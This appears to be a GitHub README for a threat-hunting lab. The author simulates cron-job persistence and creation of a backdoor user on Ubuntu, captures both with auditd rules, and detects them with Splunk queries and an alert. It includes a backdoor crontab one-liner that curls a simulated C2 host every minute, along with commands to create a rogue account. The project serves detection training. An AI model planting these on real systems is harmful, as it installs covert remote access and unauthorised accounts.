


# Project 05 - Threat Hunting: Persistence and Privilege Escalation


---

## Overview

In this project I simulated post-exploitation activity on the victim machine, specifically persistence via a cron job backdoor and privilege escalation via a newly created user account. I used auditd to capture these events at the kernel level and forwarded the logs to Splunk where I built detection queries to surface both techniques.

Threat hunting means proactively looking for attacker behaviour that automated alerts may have missed. This project demonstrates the full cycle: simulate the threat, configure kernel-level auditing, hunt for it in Splunk, and build a detection that catches it in future.

---

## MITRE ATT&CK Mapping

| Field | Value |
|-------|-------|
| Tactic 1 | Persistence |
| Technique 1 | Scheduled Task/Job: Cron |
| ID 1 | T1053.003 |
| Tactic 2 | Persistence |
| Technique 2 | Create Account: Local Account |
| ID 2 | T1136.001 |
| Tactic 3 | Privilege Escalation |
| Technique 3 | Abuse Elevation Control Mechanism |
| ID 3 | T1548 |
| Data Source | Linux audit logs (/var/log/audit/audit.log) |

---

## Lab Environment

| Component | Details |
|-----------|---------|
| SIEM | Splunk Enterprise 10.2.0 |
| Victim OS | Ubuntu 24.04 (AWS EC2, af-south-1) |
| Auditing Tool | auditd 3.x |
| Log Source | /var/log/audit/audit.log |
| Forwarder | Splunk Universal Forwarder |

---

## Attack Simulations

### Simulation 1 - Cron Job Persistence (T1053.003)

I simulated an attacker establishing persistence by adding a malicious cron job that reaches out to a command and control server every minute:

```bash
# Add a backdoor cron job as root
(crontab -l 2>/dev/null; echo "* * * * * /usr/bin/curl http://192.168.1.100/backdoor") | crontab -
```

This command makes the victim machine reach out to a simulated C2 server (192.168.1.100) every minute. In a real attack this could be used to download and execute malicious payloads, exfiltrate data, or maintain a reverse shell.

**Verify the cron entry was added:**

```bash
crontab -l
# Output: * * * * * /usr/bin/curl http://192.168.1.100/backdoor
```

### Simulation 2 - Create Backdoor User (T1136.001)

I simulated an attacker creating a new local user account to maintain access even if the original compromised account is locked:

```bash
# Create a new user with home directory
sudo useradd -m hacker123
sudo passwd hacker123
```

### Simulation 3 - Privilege Escalation Check (T1548)

I simulated a privilege escalation attempt by checking what the newly created user can run with sudo:

```bash
sudo -l -U hacker123
```

In a misconfigured system this command reveals sudo privileges that can be exploited to gain root access.

---

## auditd Configuration

I configured auditd to monitor and log the specific actions associated with these attack techniques. The full ruleset is in [../../scripts/threat-hunting-rules.sh](../../scripts/threat-hunting-rules.sh).

**Key rules applied:**

```bash
# Monitor crontab modifications
-w /var/spool/cron -p wa -k persistence

# Monitor /etc/cron.d directory
-w /etc/cron.d -p wa -k persistence

# Monitor user account creation and modification
-w /etc/passwd -p wa -k user_modification
-w /etc/shadow -p wa -k user_modification
-w /etc/group -p wa -k user_modification

# Monitor sudo usage
-a always,exit -F arch=b64 -S execve -F path=/usr/bin/sudo -k privilege_escalation

# Monitor useradd and usermod commands
-w /usr/sbin/useradd -p x -k user_modification
-w /usr/sbin/usermod -p x -k user_modification
```

**Making rules persistent:**

```bash
sudo auditctl -l  # verify rules loaded
sudo systemctl restart auditd
```

---

## auditd Log Evidence

### Cron Modification Entry

After adding the backdoor cron job, auditd generated the following log entry:

```
type=SYSCALL msg=audit(1746792000.123:456): arch=c000003e syscall=257 success=yes
exit=3 a0=ffffff9c a1=7f1234567890 a2=241 a3=1b6 items=2 ppid=1234
pid=5678 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0
fsgid=0 tty=pts0 ses=3 comm="crontab" exe="/usr/bin/crontab"
key="persistence"
```

### User Creation Entry

```
type=SYSCALL msg=audit(1746792100.456:789): arch=c000003e syscall=59 success=yes
exit=0 a0=55a1b2c3d4e5 a1=55a1b2c3d4f0 a2=55a1b2c3d500 items=2
ppid=2345 pid=6789 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0
egid=0 sgid=0 fsgid=0 tty=pts0 ses=3 comm="useradd" exe="/usr/sbin/useradd"
key="user_modification"
```

---

## Splunk Detection - Hunting Queries

I forwarded /var/log/audit/audit.log to Splunk via the Universal Forwarder and ran the following hunt queries.

### Query 1 - Detect All Persistence, User Modification, and Privilege Escalation Events

```spl
index=* source="/var/log/audit/audit.log"
  "user_modification" OR "persistence" OR "privilege_escalation"
| table _time, host, key, comm, exe, auid
| sort -_time
```

**Confirmed results:** Splunk returned events matching all three keys, confirming that auditd captured each simulated attack action.

### Query 2 - Cron Persistence Specifically

```spl
index=* source="/var/log/audit/audit.log" key="persistence"
| rex "comm=\"(?P<command>[^\"]+)\""
| rex "exe=\"(?P<executable>[^\"]+)\""
| stats count by command, executable, host
```

### Query 3 - New User Creation

```spl
index=* source="/var/log/audit/audit.log" key="user_modification"
| rex "comm=\"(?P<command>[^\"]+)\""
| where command="useradd" OR command="usermod"
| table _time, host, command
| sort -_time
```

### Query 4 - Sudo Usage Hunt

```spl
index=* source="/var/log/audit/audit.log" key="privilege_escalation"
| rex "auid=(?P<auid>\d+)"
| stats count by host, auid
| sort -count
```

---

## Alert Configuration

| Setting | Value |
|---------|-------|
| Alert Name | persistence and privilege escalation detected |
| Alert Type | Real-time |
| Trigger Condition | Number of results greater than 0 |
| Severity | High |
| Response Action | Notify security team |

---

## Response Actions

1. Identify the user account (auid) that made the change - is it an expected admin account?
2. Check if the cron job is legitimate - review the command it runs. Outbound curl or wget to an external IP is almost always malicious.
3. If a new user account was created unexpectedly, lock it immediately: `sudo passwd -l hacker123`.
4. Check if the new user has been added to any privileged groups: `groups hacker123`.
5. Review all sudo entries for the new account: `sudo -l -U hacker123`.
6. Pivot to auth.log to check if the new account has been used to log in.
7. Remove the malicious cron entry: `crontab -e` (as root) and delete the line.
8. Escalate to Tier 2 if root-level persistence is confirmed.

---

## Key Takeaways

- auditd provides kernel-level visibility that cannot be bypassed by an attacker who only has user-level access. It is one of the most powerful native Linux detection tools available.
- Assigning meaningful key values (persistence, user_modification, privilege_escalation) to auditd rules makes Splunk queries clean and fast.
- A cron job that runs every minute and makes outbound HTTP connections is one of the simplest and most common persistence techniques used by attackers after initial access.
- Threat hunting is about knowing what to look for before the alert fires. Building the auditd rules and Splunk queries before an attack means you detect it in real-time rather than discovering it days later.

---

## Screenshots

### auditd Logging Persistence and User Modification Events

The victim terminal shows auditd capturing kernel-level audit events. The raw log entries contain the persistence and user_modification keys, confirming auditd is monitoring cron modifications and account creation.



---

### Splunk Hunt Results - All Three Threat Categories Confirmed

The Splunk bar chart shows event counts for all three auditd keys: persistence, privilege_escalation, and user_modification. The query `index=* source="/var/log/audit/audit.log" "user_modification" OR "persistence" OR "privilege_escalation" | stats count by key` returned 7 events total across 3 categories, confirming every simulated attack was detected.



---

## Files

- [../../scripts/threat-hunting-rules.sh](../../scripts/threat-hunting-rules.sh) - auditd rules setup script
- [../../detection-rules/persistence-detection.spl](../../detection-rules/persistence-detection.spl) - Splunk SPL for persistence hunting
